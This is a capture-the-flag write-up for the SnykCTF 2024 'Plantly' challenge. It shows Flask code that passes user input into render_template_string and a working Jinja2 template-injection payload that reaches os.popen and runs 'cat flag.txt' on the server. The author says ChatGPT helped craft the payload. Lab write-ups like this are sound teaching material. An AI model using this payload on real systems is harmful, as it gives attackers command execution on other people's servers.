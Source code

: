 # Challenge Statement
![image](https://github.com/user-attachments/assets/fc1311c8-5cba-4670-ba07-c97b1634a257)

Attachment: [Plantly.zip](https://github.com/harishkannan05/SnykCTF-2024-Writeup/blob/main/Attachments/Plantly.zip)

# Solution
Going through the source code, we can see that there is a possibility of a SSTI (Server-Side Template Injection) Vulnerability.
```
custom_requests = "".join(
    f"<li>Custom Request: {render_template_string(purchase.custom_request)}</li>" 
    for purchase in purchases if purchase.custom_request
)
```
This code takes the user input `purchase.custom_request` and feeds it straight into Flask’s `render_template_string()` without any sanitization, which makes it vulnerable to executing user-provided template code on the server.

With a bit of help from ChatGPT to craft the payload, I was able to reveal the flag. 
Payload used - 
```
{% for c in ''.__class__.__mro__[1].__subclasses__() %}{% if c.__name__ == 'WarningMessage' %}{{ c.__init__.__globals__['__builtins__']['__import__']('os').popen('cat flag.txt').read() }}{% endif %}{% endfor %}
```

![image](https://github.com/user-attachments/assets/95ca8435-9d14-4016-a558-8f511bc73d64)

